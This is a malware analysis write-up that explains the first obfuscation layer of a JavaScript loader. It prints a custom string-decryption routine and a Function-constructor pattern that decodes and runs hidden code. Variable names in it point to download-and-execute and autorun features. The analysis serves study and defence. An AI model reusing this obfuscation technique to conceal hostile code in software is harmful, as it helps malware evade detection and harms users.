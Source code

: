 ## Obfuscation 101
## Table of Contents
* [Malware analysis](#Malware-analysis)
* [Hunting](#Hunting)
* [Cyber kill chain](#Cyber-kill-chain)
* [Indicators Of Compromise (IOC)](#IOC)
* [References MITRE ATT&CK Matrix](#Ref-MITRE-ATTACK)
* [Links](#Links)
  + [Original Tweet](#tweet)
  + [Link Anyrun](#Links-Anyrun)

<h2>Malware analysis <a name="Malware-analysis"></a></h2>
<h6>The initial vector is a JavaScript script probably extracted from an executable archive reported by <a href="https://twitter.com/Racco42">Racco42</a> in reply of the original tweet of <a href="https://twitter.com/malwrhunterteam">malwrhunterteam</a>. As first, we can note that declare the future variable for the second layer, then this use a custom algorithm for decrypt the strings of the last part of the code.</h6>

```js
var version,server,interval,attemptsCount,status,wss,defaultPath,scriptFullPath,scriptName,fakeAutorunName,shellObj,clientInfo,SendClientInfo,SendKnock,SendTaskResult,DoTasks,Execute,GetFilenameFromURL,DownloadAndExecute,ExecuteAndOutput,GetClientInfo,AddToAutorun,ImportJSON;

function()
{
 function Decrypt(e)
 {
  var j=1503701;
  var o=e.length;
  var y=[];
  for(var p=0;p<o;p++){y[p]=e.charAt(p)};
  for(var p=0;p<o;p++)
  {
   var x=j*(p+118)+(j%47008);
   var c=j*(p+699)+(j%34302);
   var z=x%o;
   var b=c%o;
   var a=y[z];
   y[z]=y[b];
   y[b]=a;
   j=(x+c)%4703074;
  };
  return y.join('');
 };
```
<h6>Once this done, this uses the constructor of the function for create an object which decrypts the second pass of obfuscated code of the second layer and execute it.</h6>

```js
var hbJ=Decrypt["constructor"];
var Zft=hbJ;
var hCM=hbJ('','var b=11,v=22,h=40;var k="abcdefghijklmnopqrstuvwxyz"; [...] return u.split(p+"!").join(p);');
var pRr=hCM(Decrypt('esnnJ*JsAe).csethJnqJAelAd.ieU,tigY.d [...] oJk0O3i\/a.ii)uarq\/9]E0w.a" AA 4'));
var WGL=Zft(vbR,pRr );
WGL(8225);
return 4799;
}()
```
